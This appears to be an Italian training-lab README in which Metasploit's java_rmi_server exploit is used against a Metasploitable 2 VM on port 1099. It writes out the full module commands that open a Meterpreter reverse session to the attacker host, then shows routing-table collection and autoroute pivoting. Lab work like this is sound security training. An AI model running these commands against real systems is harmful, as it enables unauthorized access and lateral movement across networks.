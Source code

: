 # 📐 Progetto S7/L5 📐
# Altri utilizzi vari di Metasploit 🚀

## 📋 Descrizione
Questo progetto esplora l'uso avanzato di **Metasploit Framework**, concentrandosi su:
- **Sfruttamento di vulnerabilità** (es. Java RMI sulla porta 1099).
- **Raccolta di informazioni** su configurazioni di rete e tabelle di routing della macchina target.

**Obiettivo:** Dimostrare competenza nell'utilizzo di Metasploit per raccogliere informazioni e accedere ai sistemi vulnerabili in un ambiente controllato.

---

## 🛠️ Ambiente di test

- **Macchina attaccante:** Kali Linux
  - **IP:** 192.168.50.165
- **Macchina vittima:** Metasploitable 2
  - **IP:** 192.168.50.3
  - **Servizio vulnerabile:** Java RMI (porta 1099)

---

## ⚙️ Passaggi eseguiti

### 1️⃣ Configurazione della rete
Per garantire la comunicazione tra le macchine:
- La macchina Metasploitable è stata configurata con un IP statico: `192.168.50.3`.
- Verificata la connettività con il comando:
  ```bash
  ping 192.168.50.3
  ```

---

### 2️⃣ Sfruttamento della vulnerabilità

#### Modulo usato:
- **Exploit:** `exploit/multi/misc/java_rmi_server`

#### Configurazione del modulo:
```bash
use exploit/multi/misc/java_rmi_server
set RHOSTS 192.168.50.3
set RPORT 1099
set LHOST 192.168.50.165
set LPORT 4444
exploit
```

#### Risultato:
- Ottenuta una sessione **Meterpreter** sulla macchina vittima.

---

### 3️⃣ Raccolta di informazioni 🕵️‍♂️

#### Configurazione di rete:
- Comando eseguito da Meterpreter:
  ```bash
  ifconfig
  ```
  - Output salvato in `netconfig.txt`.

#### Tabella di routing:
- Recuperata la tabella di routing:
  ```bash
  cat /proc/net/route
  ```
  - Output salvato in `routing_table.txt`.

---

### 4️⃣ Utilizzo del modulo `autoroute`

Per esplorare ulteriormente la rete:
- **Modulo usato:** `post/multi/manage/autoroute`
- Configurazione:
  ```bash
  use post/multi/manage/autoroute
  set SESSION 1
  run
  ```
- **Risultato:** Aggiunto il route alla rete `192.168.50.0/24`.

---

## 📂 File generati

- `netconfig.txt`: Configurazione di rete della macchina vittima.
- `routing_table.txt`: Tabella di routing della macchina vittima.

---

## 📸 Screenshot

### Configurazione di rete
![Configurazione di rete](route.png)

### Tabella di routing
![Tabella di routing](TabelladiRouting.png)

---

## 💡 Conclusioni

L'esercizio ha permesso di:
1. Sfruttare una vulnerabilità nota per ottenere l'accesso remoto.
2. Raccogliere informazioni critiche sulla macchina vittima.
3. Configurare Metasploit per estendere il controllo alla rete target.

Questo progetto dimostra la versatilità di Metasploit non solo per l'exploit di vulnerabilità, ma anche per la raccolta di informazioni e la gestione avanzata delle reti. 🛡️
